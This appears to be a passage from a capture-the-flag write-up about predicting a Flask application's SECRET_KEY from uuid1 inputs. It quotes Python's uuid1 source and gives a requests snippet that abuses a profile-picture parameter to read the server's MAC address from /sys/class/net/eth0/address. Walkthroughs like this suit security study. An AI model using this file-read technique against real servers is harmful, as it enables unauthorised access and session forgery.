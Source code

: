 #### Step 2: Calculating SECRET_KEY

The `SECRET_KEY` is generated using `uuid.uuid1`. Below is the implementation:

```python:uuid.py
def uuid1(node=None, clock_seq=None):
    """Generate a UUID from a host ID, sequence number, and the current time.
    If 'node' is not given, getnode() is used to obtain the hardware
    address.  If 'clock_seq' is given, it is used as the sequence number;
    otherwise a random 14-bit sequence number is chosen."""

    """ snap """

    global _last_timestamp
    import time
    nanoseconds = time.time_ns()
    # 0x01b21dd213814000 is the number of 100-ns intervals between the
    # UUID epoch 1582-10-15 00:00:00 and the Unix epoch 1970-01-01 00:00:00.
    timestamp = nanoseconds // 100 + 0x01b21dd213814000
    if _last_timestamp is not None and timestamp <= _last_timestamp:
        timestamp = _last_timestamp + 1
    _last_timestamp = timestamp
    if clock_seq is None:
        import random
        clock_seq = random.getrandbits(14) # instead of stable storage
    time_low = timestamp & 0xffffffff
    time_mid = (timestamp >> 32) & 0xffff
    time_hi_version = (timestamp >> 48) & 0x0fff
    clock_seq_low = clock_seq & 0xff
    clock_seq_hi_variant = (clock_seq >> 8) & 0x3f
    if node is None:
        node = getnode()
    return UUID(fields=(time_low, time_mid, time_hi_version,
                        clock_seq_hi_variant, clock_seq_low, node), version=1)
```
The `getnode` function retrieves the server's MAC address. Since `clock_seq` is provided using `random.getrandbits(14)`, and the `random.seed` uses `START_TIME = date.now()`, the information we need to calculate `SECRET_KEY` is as follows:
* The MAC address of the server
* The value of `int(START_TIME.timestamp())`
* The time that the UUID is created, in 100 nanosecond precision

According to [this blog](https://blog.gregscharf.com/2023/04/09/lfi-to-rce-in-flask-werkzeug-application/), the MAC address of the server is written in `/sys/class/net/eth0/address`. For some reason, the `Content-Length` header did not match the actual content length, resulting in `requests.get` raising an error. This can be solved using `stream=True` option.

```python
partial_content = b""
try:
    r = s.get(URL + "profile_picture", params={
        "username": "/sys/class/net/eth0/address"
    },stream=True)
    for chunk in r.iter_content(chunk_size=1):
        if chunk:
            partial_content += chunk
except:
    pass
```
